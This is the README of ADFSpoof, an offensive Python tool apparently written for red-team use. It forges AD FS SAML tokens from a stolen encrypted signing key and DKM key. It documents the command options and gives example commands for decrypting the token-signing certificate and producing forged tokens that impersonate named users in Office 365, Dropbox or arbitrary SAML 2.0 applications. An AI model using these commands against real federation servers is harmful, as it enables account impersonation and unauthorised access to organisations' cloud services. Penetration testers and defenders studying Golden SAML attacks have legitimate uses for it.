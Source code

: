# ADFSpoof

A python tool to forge AD FS security tokens.

Created by Doug Bienstock [(@doughsec)](https://twitter.com/doughsec) while at Mandiant FireEye.

## Detailed Description

ADFSpoof has two main functions:
1. Given the EncryptedPFX blob from the AD FS configuration database and DKM decryption key from Active Directory, produce a usable key/cert pair for token signing.
2. Given a signing key, produce a signed security token that can be used to access a federated application.

This tool is meant to be used in conjunction with ADFSDump. ADFSDump runs on an AD FS server and outputs important information that you will need to use ADFSpoof.

If you are confused by the above, you might want to read up on AD FS first. For more information on AD FS spoofing I will post a link to my TROOPERS 19 talk and slides when they are released.

## Installation

ADFSpoof is written in Python 3.

ADFSpoof requires the installation of a custom fork of the Python Cryptography package, available [here](https://github.com/dmb2168/cryptography). Microsoft did not exactly follow the RFC for Key Deriviation :wink:, so a fork of the package was needed.

All other requirements are captured in the repo's requirements.txt.

`pip install -r requirements.txt`

## Usage

```
usage: ADFSpoof.py [-h] (-b BLOB BLOB | -c CERT) [-p PASSWORD] [-v VERBOSE]
                   [--assertionid ASSERTIONID] [--responseid RESPONSEID]
                   [-s SERVER] [-a ALGORITHM] [-d DIGEST] [-o OUTPUT]
                   {o365,dropbox,saml2,dump} ...

optional arguments:
  -h, --help            show this help message and exit
  -b BLOB BLOB, --blob BLOB BLOB
                        Encrypted PFX blob and decryption key
  -c CERT, --cert CERT  AD FS Signing Certificate
  -p PASSWORD, --password PASSWORD
                        AD FS Signing Certificate Password
  -v VERBOSE, --verbose VERBOSE
                        Verbose Output
  --assertionid ASSERTIONID
                        AssertionID string. Defaults to a random string
  --responseid RESPONSEID
                        The Response ID. Defaults to random string
  -s SERVER, --server SERVER
                        Identifier for the federation service. Usually the
                        fqdn of the server. e.g. sts.example.com DO NOT
                        include HTTPS://
  -a ALGORITHM, --algorithm ALGORITHM
                        SAML signing algorithm to use
  -d DIGEST, --digest DIGEST
                        SAML digest algorithm to use
  -o OUTPUT, --output OUTPUT
                        Write generated token to the supplied filepath

modules:
  loaded modules

  {o365,dropbox,saml2,dump}
                        additional help
```
### Cryptographic Material

All ADFSpoof functionality requires cryptographic material for the AD FS signing key. This can be supplied in one of two ways:

* `-b BLOB BLOB`: Supply the EncryptedPFX binary blob (base64 decode what is pulled out of the configuration database) and the DKM key from Active directory. Order matters!
* `-c CERT`: Provide a PKCS12-formatted file for the signing key and certificate. If it is password protected supply a password with `-p`. The overall file password and private key password must be the same.


### Global Options

* `-s SERVER`: The AD FS service identifier. Required when using any module that generates a security token. This goes into the security token to let the federated application know who generated it.
* `-o FILEPATH`: Outputs the generated token to disk instead of printing it.
* `--assertionid` and `--responseid`: If you wish to supply custom attribute values for SAML AssertionID and ResponseID. Defaults to random strings.
* `-d DIGEST`: Set the MAC digest algorithm. Defaults to SHA256.
* `-a ALGORITHM`: Set the signature algorithm. Defaults to RSA-SHA256.


### Command Modules

ADFSpoof is built modularly with easy expansion in mind. Currently, it comes preloaded with four command modules that support different functionality.

Each module encapsulates the SAML attributes and values necessary to generate a valid security token for a specific token type or federated application. *Note that for the applications specific modules, the template represents the generic installation. Customization may be required for organizations that have messed with the defaults.*

#### o365

Generates a forged security token to access Microsoft Office 365. This is a SAML 1.1 token.

* `--upn UPN`: The universal principal name of the user to generate a token for. Get this from AD.
* `--objectguid`: The Object GUID of the user to generate a token for. Get this from AD. Include the curly braces.

#### Dropbox

Generats a forged security token to access Dropbox. This is a SAML 2.0 token.

* `--email EMAIL`: The email address of the user to generate a token for.
* `--accountname ACCOUNT`: The SamAccountName of the user to generate a token for.

#### SAML2

A command that encapsulates generating a generic SAML 2.0 security token. Use this module to generate security tokens for arbitrary federated applications that are using SAML 2.0. By reading the data returned by ADFSDump you should be able to generate a valid token for just about any federated application using this module.

* `--endpoint ENDPOINT`: The recipient of the seucrity token. This should be a full URL.
* `--nameidformat URN`: The value for the 'Format' attribute of the NameIdentifier tag. This should be a URN.
* `--nameid NAMEID`: The NameIdentifier attribute value.
* `--rpidentifier IDENTIFIER`: The Identifier of the relying party that is receiving the token.
* `--assertions ASSERTIONS`: The assertions that the relying party is expecting. Use the claim rules output by ADFSDump to ascertain this. Should be a single-line (do not include newlines) XML string.
* `--config FILEPATH`: A filepath to a JSON file containing the above arguments. Optional - use this if you don't want to supply everything over the command line.

#### Dump

Helper command that will take the supplied EncryptedPFX blob and DKM key from `-b`, decrypt the blob, and output the PFX file to disk. Use this to save the PFX for later.

`--path PATH`: The filepath to save the generated PFX.

### Examples

#### Decrypt the EncryptedPFX and write to disk
`python ADFSpoof.py -b EncryptedPfx.bin DKMkey.bin dump`

#### Generate a security token for Office365

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com o365 --upn robin@doughcorp.co --objectguid {1C1D4BA4-B513-XXX-XXX-3308B907D759}`

#### Generate a SAML 2.0 token for some app

`python ADFSpoof.py -b EncryptedPfx.bin DkmKey.bin -s sts.doughcorp.com saml2 --endpoint https://my.app.com/access/saml --nameidformat urn:oasis:names:tc:SAML:1.1:nameid-format:emailAddress --nameid robin@doughcorp.com --rpidentifier myapp --assertions <Attribute Name="http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress"><AttributeValue>robin@doughcorp.com</AttributeValue></Attribute>`





